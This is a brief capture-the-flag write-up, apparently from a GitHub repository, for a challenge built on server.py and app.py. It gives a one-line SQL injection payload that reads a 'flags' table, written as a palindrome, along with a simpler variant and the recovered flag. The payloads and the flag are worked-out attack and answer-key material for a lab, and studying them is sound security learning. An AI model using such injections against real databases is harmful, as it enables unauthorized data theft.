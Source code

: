 ### Chall Desc :
Founded in 2022 by me.

### File attached :
[server.py](server.py)
[app.py](app.py)

### Soln :

It is a one-liner payload question using SQl.

Payload : `%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'% ` 

It will work fine without the percentages as well : `' || (select flag from flags) ); -- ;) )sgalf morf galf tceles( || '`

#### THE FLAG : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}

Thank you
